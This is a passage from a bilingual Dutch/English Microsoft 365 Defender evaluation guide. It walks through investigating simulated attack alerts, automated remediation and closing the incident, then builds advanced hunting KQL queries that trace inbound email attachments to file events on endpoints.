<span data-ttu-id="c8ebe-215">In de volgende afbeelding ziet u de geselecteerde pagina MET IP-adresgegevens (klikken op IP-adres in de processtructuur Waarschuwing).</span><span class="sxs-lookup"><span data-stu-id="c8ebe-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="c8ebe-216"></span><span class="sxs-lookup"><span data-stu-id="c8ebe-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="c8ebe-217">Waarschuwing: Verkenning van gebruikers- en IP-adres (SMB) (Bron: Microsoft Defender voor identiteit)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="c8ebe-218">Door een SMB-protocol (Server Message Block) te gebruiken, kunnen aanvallers recente gebruikerslogengegevens krijgen waarmee ze lateraal door het netwerk kunnen gaan om toegang te krijgen tot een specifiek gevoelig account.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="c8ebe-219">In deze detectie wordt een waarschuwing geactiveerd wanneer de SMB-sessie-overzicht wordt uitgevoerd tegen een domeincontroller.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="c8ebe-221">De tijdlijn van het apparaat controleren [Microsoft Defender voor eindpunt]</span><span class="sxs-lookup"><span data-stu-id="c8ebe-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

<span data-ttu-id="c8ebe-222">Nadat u de verschillende waarschuwingen in dit incident hebt verkend, gaat u terug naar de pagina met incidenten die u eerder hebt onderzocht.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="c8ebe-223">Selecteer het **tabblad Apparaten** op de pagina met incidenten om de apparaten te bekijken die betrokken zijn bij dit incident, zoals gerapporteerd door Microsoft Defender voor Eindpunt en Microsoft Defender voor identiteit.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="c8ebe-224">Selecteer de naam van het apparaat waarop de aanval is uitgevoerd om de entiteitspagina voor dat specifieke apparaat te openen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="c8ebe-225">Op die pagina ziet u waarschuwingen die zijn geactiveerd en gerelateerde gebeurtenissen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="c8ebe-226">Selecteer het **tabblad Tijdlijn** om de tijdlijn van het apparaat te openen en alle gebeurtenissen en gedragingen op het apparaat in chronologische volgorde weer te geven, afgewisseld met de waarschuwingen die zijn opgeheven.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="c8ebe-228">Het uitbreiden van een aantal interessantere gedragingen biedt nuttige details, zoals procesbomen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="c8ebe-229">Schuif bijvoorbeeld omlaag totdat u de meldingsgebeurtenis Verdachte **procesinjectie hebt waargenomen.**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="c8ebe-230">Selecteer de **powershell.exe** die is notepad.exe procesgebeurtenis eronder, om de volledige processtructuur voor dit gedrag weer te geven onder de grafiek **Gebeurtenis-entiteiten** in het zijdeelvenster.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="c8ebe-231">Gebruik de zoekbalk om zo nodig te filteren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-231">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="c8ebe-233">De gebruikersgegevens controleren [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="c8ebe-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="c8ebe-234">Selecteer op de pagina Incident het tabblad **Gebruikers** om de lijst weer te geven met gebruikers die betrokken zijn bij de aanval.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="c8ebe-235">De tabel bevat aanvullende informatie over elke gebruiker, inclusief de prioriteitsscore voor **onderzoek van elke** gebruiker.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="c8ebe-236">Selecteer de gebruikersnaam om de profielpagina van de gebruiker te openen, waar verder onderzoek kan worden uitgevoerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="c8ebe-237">[Lees meer over het onderzoeken van risicovolle gebruikers.](/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-237">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="c8ebe-239">Geautomatiseerd onderzoek en herstel</span><span class="sxs-lookup"><span data-stu-id="c8ebe-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="c8ebe-240">Voordat we u door deze simulatie leiden, bekijkt u de volgende video om vertrouwd te raken met wat geautomatiseerde zelfherstel is, waar u deze kunt vinden in de portal en hoe deze kan helpen bij uw beveiligingsbewerkingen:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="c8ebe-241">Ga terug naar het incident in de portal van het Microsoft 365-beveiligingscentrum.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="c8ebe-242">Op **het tabblad Onderzoeken** op de pagina **Incident** ziet u de geautomatiseerde onderzoeken die zijn gestart door Microsoft Defender voor identiteit en Microsoft Defender voor Eindpunt.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="c8ebe-243">In de onderstaande schermafbeelding wordt alleen het geautomatiseerde onderzoek weergegeven dat is geactiveerd door Defender voor Eindpunt.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="c8ebe-244">Standaard worden in Defender voor Eindpunt automatisch de artefacten in de wachtrij gesaneerd, wat herstel vereist.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="c8ebe-246">Selecteer de waarschuwing die een onderzoek heeft geactiveerd om de pagina **Details van het onderzoek te** openen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="c8ebe-247">U ziet de volgende details:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-247">You'll see the following details:</span></span>

- <span data-ttu-id="c8ebe-248">Waarschuwing(s) die het geautomatiseerde onderzoek hebben geactiveerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="c8ebe-249">Beïnvloede gebruikers en apparaten.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-249">Impacted users and devices.</span></span> <span data-ttu-id="c8ebe-250">Als er indicatoren worden gevonden op extra apparaten, worden deze extra apparaten ook weergegeven.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="c8ebe-251">Lijst met bewijs.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-251">List of evidence.</span></span> <span data-ttu-id="c8ebe-252">De entiteiten die zijn gevonden en geanalyseerd, zoals bestanden, processen, services, stuurprogramma's en netwerkadressen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="c8ebe-253">Deze entiteiten worden geanalyseerd op mogelijke relaties met de waarschuwing en beoordeeld als goedaardig of schadelijk.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="c8ebe-254">Bedreigingen gevonden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-254">Threats found.</span></span> <span data-ttu-id="c8ebe-255">Bekende bedreigingen die tijdens het onderzoek worden gevonden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="c8ebe-256">Afhankelijk van de tijdsinstelling wordt het geautomatiseerde onderzoek mogelijk nog uitgevoerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="c8ebe-257">Wacht enkele minuten totdat het proces is voltooid voordat u het bewijs verzamelt en analyseert en de resultaten bekijkt.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="c8ebe-258">Vernieuw **de pagina Onderzoeksdetails** om de meest recente resultaten te krijgen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-258">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="c8ebe-260">Tijdens het geautomatiseerde onderzoek heeft Microsoft Defender voor Eindpunt de notepad.exe geïdentificeerd, die is geïnjecteerd als een van de artefacten die moeten worden gesaneerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="c8ebe-261">Defender voor Eindpunt stopt automatisch de verdachte procesinjectie als onderdeel van de automatische herstelprocedure.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="c8ebe-262">U kunt zien <i>notepad.exe</i> verdwijnen uit de lijst met lopende processen op het testapparaat.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="c8ebe-263">Het incident oplossen</span><span class="sxs-lookup"><span data-stu-id="c8ebe-263">Resolve the incident</span></span>

<span data-ttu-id="c8ebe-264">Nadat het onderzoek is voltooid en is bevestigd dat het is gesaneerd, sluit u het incident.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="c8ebe-265">Selecteer **Incident beheren.**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-265">Select **Manage incident**.</span></span> <span data-ttu-id="c8ebe-266">Stel de status in op **Incident oplossen** en selecteer de relevante classificatie.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="c8ebe-267">Wanneer het incident is opgelost, worden alle bijbehorende waarschuwingen gesloten in het Microsoft 365-beveiligingscentrum en in de gerelateerde portals.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>


<span data-ttu-id="c8ebe-269">Hiermee wordt de aanvalssimulatie voor de scenario's voor incidentbeheer en geautomatiseerd onderzoek en herstel afgerond.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="c8ebe-270">In de volgende simulatie kunt u proactief op zoek gaan naar potentieel schadelijke bestanden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="c8ebe-271">Scenario voor geavanceerd jagen</span><span class="sxs-lookup"><span data-stu-id="c8ebe-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="c8ebe-272">Voordat we u door de simulatie leiden, bekijkt u de volgende video om de geavanceerde zoekconcepten te begrijpen, te zien waar u deze kunt vinden in de portal en weet u hoe deze u kan helpen bij uw beveiligingsbewerkingen:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="c8ebe-273">Vereisten voor de jachtomgeving</span><span class="sxs-lookup"><span data-stu-id="c8ebe-273">Hunting environment requirements</span></span>

<span data-ttu-id="c8ebe-274">Er is één intern postvak en één apparaat vereist voor dit scenario.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="c8ebe-275">U hebt ook een extern e-mailaccount nodig om het testbericht te verzenden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="c8ebe-276">Controleer of uw tenant [Microsoft 365 Defender heeft ingeschakeld.](./mtp-enable.md#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-276">Verify that your tenant has [enabled Microsoft 365 Defender](./mtp-enable.md#starting-the-service).</span></span>
2. <span data-ttu-id="c8ebe-277">Identificeer een doelpostvak dat moet worden gebruikt voor het ontvangen van e-mail.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="c8ebe-278">a.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-278">a.</span></span> <span data-ttu-id="c8ebe-279">Dit postvak moet worden gecontroleerd door Microsoft Defender voor Office 365 b.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="c8ebe-280">Het apparaat van vereiste 3 moet toegang krijgen tot dit postvak</span><span class="sxs-lookup"><span data-stu-id="c8ebe-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="c8ebe-281">Een testapparaat configureren: a.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-281">Configure a test device: a.</span></span> <span data-ttu-id="c8ebe-282">Zorg ervoor dat u Windows 10 versie 1903 of hoger gebruikt.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="c8ebe-283">b.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-283">b.</span></span> <span data-ttu-id="c8ebe-284">Ga met het testapparaat naar het testdomein.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="c8ebe-285">c.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-285">c.</span></span> <span data-ttu-id="c8ebe-286">[Schakel Windows Defender Antivirus in.](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)</span><span class="sxs-lookup"><span data-stu-id="c8ebe-286">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="c8ebe-287">Zie dit [probleemoplossingsonderwerp](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)als u problemen hebt met het inschakelen van Windows Defender Antivirus.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="c8ebe-288">d.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-288">d.</span></span> <span data-ttu-id="c8ebe-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="c8ebe-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="c8ebe-290">De simulatie uitvoeren</span><span class="sxs-lookup"><span data-stu-id="c8ebe-290">Run the simulation</span></span>

1. <span data-ttu-id="c8ebe-291">Verzend vanuit een extern e-mailaccount een e-mail naar het postvak dat is geïdentificeerd in stap 2 van de sectie testomgevingvereisten.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="c8ebe-292">Voeg een bijlage toe die is toegestaan via een bestaand e-mailfilterbeleid.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="c8ebe-293">Dit bestand hoeft niet schadelijk of uitvoerbaar te zijn.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="c8ebe-294">Voorgestelde bestandstypen zijn <i>.pdf,</i> <i>.exe</i> (indien toegestaan) of Office-document, zoals een Word-bestand.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="c8ebe-295">Open de verzonden e-mail vanaf het apparaat dat is geconfigureerd zoals gedefinieerd in stap 3 van de sectie testomgevingvereisten.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="c8ebe-296">Open de bijlage of sla het bestand op het apparaat op.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="c8ebe-297">Ga op zoek</span><span class="sxs-lookup"><span data-stu-id="c8ebe-297">Go hunting</span></span>

1. <span data-ttu-id="c8ebe-298">Open de security.microsoft.com portal.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="c8ebe-299">Navigeer naar **> Advanced hunting.**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="c8ebe-301">Maak een query die begint met het verzamelen van e-mailgebeurtenissen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="c8ebe-302">Selecteer nieuw in het queryvenster.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="c8ebe-303">Dubbelklik in het schema op de tabel E-mailEvents.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="c8ebe-304">Wijzig de tijd in de afgelopen 24 uur.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="c8ebe-305">Ervan uitgaande dat de e-mail die u hebt verzonden toen u de bovenstaande simulatie hebt uitgevoerd, de afgelopen 24 uur was, wijzigt u anders de periode.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="c8ebe-308">Voer de query uit.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-308">Run the query.</span></span> <span data-ttu-id="c8ebe-309">Mogelijk hebt u veel resultaten, afhankelijk van de omgeving voor de pilot.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="c8ebe-310">Zie de volgende stap voor filteropties om het retourneren van gegevens te beperken.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="c8ebe-312">Geavanceerde selectie geeft queryresultaten weer als tabelgegevens.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="c8ebe-313">U kunt er ook voor kiezen om de gegevens weer te geven in andere notatietypen, zoals grafieken.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="c8ebe-314">Bekijk de resultaten en kijk of u de e-mail kunt identificeren die u hebt geopend.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="c8ebe-315">Het kan tot 2 uur duren voordat het bericht wordt weergegeven in de geavanceerde jacht.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="c8ebe-316">Als de e-mailomgeving groot is en er veel resultaten zijn, kunt u de optie **Filters tonen** gebruiken om het bericht te vinden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="c8ebe-317">In het voorbeeld is de e-mail verzonden vanuit een Yahoo-account.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="c8ebe-318">Klik op het pictogram yahoo.com onder de sectie SenderFromDomain en klik vervolgens op Toepassen om het geselecteerde **+** domein toe te voegen aan de query.  </span><span class="sxs-lookup"><span data-stu-id="c8ebe-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="c8ebe-319">Gebruik het domein of e-mailaccount dat is gebruikt om het testbericht te verzenden in stap 1 van De simulatie uitvoeren om de resultaten te filteren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="c8ebe-320">Voer de query opnieuw uit om een kleinere resultatenset te krijgen om te controleren of u het bericht uit de simulatie ziet.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="c8ebe-323">Klik op de resulterende rijen uit de query, zodat u de record kunt controleren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="c8ebe-325">Nu u hebt geverifieerd dat u het e-mailbericht kunt zien, voegt u een filter voor de bijlagen toe.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="c8ebe-326">Focus op alle e-mailberichten met bijlagen in de omgeving.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="c8ebe-327">In dit scenario richt u zich op binnenkomende e-mailberichten, niet op de e-mailberichten die vanuit uw omgeving worden verzonden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="c8ebe-328">Verwijder alle filters die u hebt toegevoegd om uw bericht te zoeken en voeg '| where **AttachmentCount > 0** and **EmailDirection**  ==  **"Inbound""**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="c8ebe-329">In de volgende query ziet u het resultaat met een kortere lijst dan de eerste query voor alle e-mailgebeurtenissen:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. <span data-ttu-id="c8ebe-330">Voeg vervolgens de informatie over de bijlage (zoals: bestandsnaam, hashes) toe aan uw resultatenset.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="c8ebe-331">Neem deel aan de tabel **EmailAttachmentInfo** om dit te doen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="c8ebe-332">De veelgebruikte velden voor deelname zijn in dit geval **NetworkMessageId** **en RecipientObjectId.**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="c8ebe-333">De volgende query bevat ook een extra regel '| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="c8ebe-334">Gebruik vervolgens de **SHA256-waarde** uit de tabel **EmailAttachmentInfo** om **DeviceFileEvents (bestandsacties** die zijn gebeurd op het eindpunt) te zoeken voor die hash.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="c8ebe-335">Het algemene veld hier is de SHA256-hash voor de bijlage.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="c8ebe-336">De resulterende tabel bevat nu details van het eindpunt (Microsoft Defender voor eindpunt), zoals de naam van het apparaat, welke actie is uitgevoerd (in dit geval gefilterd om alleen Bestandscreated-gebeurtenissen op te nemen) en waar het bestand is opgeslagen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="c8ebe-337">De accountnaam die aan het proces is gekoppeld, wordt ook opgenomen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="c8ebe-338">U hebt nu een query gemaakt die alle binnenkomende e-mailberichten identificeert waarin de gebruiker de bijlage heeft geopend of opgeslagen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="c8ebe-339">U kunt deze query ook verfijnen om te filteren op specifieke afzenderdomeinen, bestandsgrootten, bestandstypen, en ga zo maar door.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="c8ebe-340">Functies zijn een speciaal type join, waarmee u meer TI-gegevens over een bestand kunt ophalen, zoals de aanwezigheidsgegevens, ondertekenaars en uitgevende e-mail. Gebruik de functie **FileProfile()** voor meer informatie over het bestand:</span><span class="sxs-lookup"><span data-stu-id="c8ebe-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="c8ebe-341">Een detectie maken</span><span class="sxs-lookup"><span data-stu-id="c8ebe-341">Create a detection</span></span>

